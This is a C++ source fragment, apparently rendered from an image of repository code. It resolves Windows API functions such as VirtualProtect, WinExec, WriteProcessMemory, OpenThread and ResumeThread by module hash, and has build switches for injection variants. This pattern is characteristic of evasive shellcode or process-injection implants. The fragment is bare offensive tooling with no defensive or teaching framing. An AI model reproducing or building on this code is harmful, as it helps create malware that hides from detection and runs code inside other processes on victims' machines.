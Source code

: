 ```cpp
    VirtualProtectFunc = (VirtualProtectType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualProtectName);
    SleepFunc = (SleepType)GetSymbolAddress(kernel32dll, (LPCSTR)SleepName);
    OpenMutexFunc = (OpenMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)OpenMutexName);
    CloseHandleFunc = (CloseHandleType)GetSymbolAddress(kernel32dll, (LPCSTR)CloseHandleName);
    WinExecFunc = (WinExecType)GetSymbolAddress(kernel32dll, (LPCSTR)WinExecName);
    WaitForSingleObjectFunc = (WaitForSingleObjectType)GetSymbolAddress(kernel32dll, (LPCSTR)WaitForSingleObjectName);
    ExitThreadFunc = (ExitThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ExitThreadName);

#ifndef NO_LIB_RELOAD
    FreeLibraryFunc = (FreeLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)FreeLibraryName);
#endif


    // msvcrt.dll exports
    msvcrtdll = (HMODULE)GetModule(MSVCRTDLL_HASH);

    if (0 == (int)msvcrtdll) {
        msvcrtdll = LoadLibraryFunc((LPCWSTR)msvcrtdllName);

    }
    mallocFunc = (mallocType)GetSymbolAddress(msvcrtdll, (LPCSTR)mallocName);
    memsetFunc = (memsetType)GetSymbolAddress(msvcrtdll, (LPCSTR)memsetName);
    memcpyFunc = (memcpyType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcpyName);
    freeFunc = (freeType)GetSymbolAddress(msvcrtdll, (LPCSTR)freeName);
#ifdef _DEBUG
    printfFunc = (printfType)GetSymbolAddress(msvcrtdll, (LPCSTR)printfName);
#endif

#ifdef _DEBUG
    printfFunc("Located msvcrt `malloc` at 0x%llx\n", (ULONG64)mallocFunc);
    printfFunc("Located msvcrt `memset` at 0x%llx\n", (ULONG64)memsetFunc);
    printfFunc("Located msvcrt `free` at 0x%llx\n", (ULONG64)freeFunc);
#endif

#ifdef _DEBUG
    printfFunc("Located Kernel32 `LoadLibrary` at 0x%llx\n", (ULONG64)LoadLibraryFunc);
    printfFunc("Located Kernel32 `OpenThread` at 0x%llx\n", (ULONG64)OpenThreadFunc);
    printfFunc("Located Kernel32 `ResumeThread` at 0x%llx\n", (ULONG64)ResumeThreadFunc);
    printfFunc("Located Kernel32 `Sleep` at 0x%llx\n", (ULONG64)SleepFunc);
#ifdef WPM
    printfFunc("Located Kernel32 `WriteProcessMemory` at 0x%llx\n", (ULONG64)WriteProcessMemoryFunc);
#endif

#endif

    // advapi32.dll exports

#ifdef _DEBUG
    printfFunc("Locating ADVAPI32 functions\n");
#endif
    advapi32dll = (HMODULE)GetModule(ADVAPI32DLL_HASH);
#ifdef _DEBUG
    printfFunc("ADVAPI32 handle: %u\n", (int)advapi32dll);
#endif

    if (0 == (int)advapi32dll) {
#ifdef _DEBUG
        printfFunc("Failed to find Advapi32 handle: %u\n", (int)advapi32dll);
#endif
        advapi32dll = LoadLibraryFunc((LPCWSTR)advapi32dllName);
```